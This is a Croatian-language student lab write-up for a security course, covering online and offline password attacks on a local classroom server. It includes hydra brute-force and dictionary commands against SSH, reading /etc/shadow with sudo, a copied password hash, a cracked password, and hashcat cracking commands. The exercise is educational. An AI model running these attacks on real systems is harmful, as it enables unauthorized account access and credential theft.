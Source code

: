 # SRP Lab 5

Otvaramo bash

Pingamo a507 local server da vidimo jesmo li na istom lanu:

```python
ping a507-server.local
```

upoznavanje sa nmap

otvaramo local server i sa njega uzimamo svoj username (milicevic_mario) i ip adresu dockera (10.0.15.1) 

spajamo se na server ssh klijentom, korištenjem komande:

```python
ssh milicevic_mario@10.0.15.1
```

pokusamo 3 puta pogoditi password, sustav nas odbija ali vidimo da nema rate limita

Znamo da su passwordi od 4 do 6 lowercase engleskih slova abecede kojih ima 26, što znači da postoji:

26^4+26^5+26^6 kombinacija

suma od 4 do 6 = 26^4(26^2+26+1) otprilike = 26^4*26^2 = 26^6 otprilike = 2^30

## Online napad

dalje koristimo hydru

```python
hydra -l milicevic_mario -x 4:6:a 10.0.15.1 -V -t 4 ssh
```

Pokrećemo hydru da pokušava password space od 4 do 6 charactera, kroz cijeli password space na odredenu ip adresu

[STATUS] 64.00 tries/min, 64 tries in 00:01h, 321254064 to do in 83659:55h, 4 active - 64 pokusaja po minuti tj 2^6

password space je otprilike 2^30

2^30/2^6 = 2^24 minuta potrebno za probijanje šifre

365*24*60 otprilike = 2^8*2^5*2^6 = 2^19 minuta u godini

Napad dakle traje otprilike 2^5 godina tj 32 godine

Wgetom skidamo lokalno online i offline dictionary da bi olakšali napad

```python
wget -r -nH -np --reject "index.html*" http://a507-server.local:8080/dictionary/g4/
```

Dajemo hydri dictionary

```python
hydra -l milicevic_mario -P dictionary/g4/dictionary_online.txt 10.0.15.1 -V -t 4 ssh
```

Dictionary ima 860 passworda, prosječno treba probati pola za naći šifru, meni našlo nakon 227, šifra je hanffr

```python
ssh milicevic_mario@10.0.15.1, nakon toga upisujem šifru hanffr i uspijeva se logirati
```

## Offline napad

Koristimo hashcat

```python
cat /etc/shadow - permission denied
```

id - izlistava kojim grupama pripadamo

```python
sudo cat /etc/shadow - ulazimo kao superuser
```

U shadow direktoriju se nalaze hashevi svih passworda

Kopiramo hash vrijednost od nekog usera, u mom primjeru freddie_mercury: $6$RrlWj8WUhVh55ors$Jja11nctU7VWOCTnRVGqEfiahZAMqg7xoJPZi7DwpNXhJhcKMmAcvv6trjthHYhHMa9gzS4VPFgi/K4b8MJJK1

Dva puta exit da izađemo

Napravimo u svom direktoriju file hash.txt i kopiramo hash vrijednost passworda

Napad se sastoji od linije koda:

```python
hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10
```

Drugi napad:

```python
hashcat --force -m 1800 -a 0 hash.txt dictionary/g4/dictionary_offline.txt --status --status-timer 10
```

nalazimo password, komandom

```python
ssh freddie_mercury@10.0.15.1
```

i unosom odgovarajućeg passworda uspijevamo se ulogirati na server.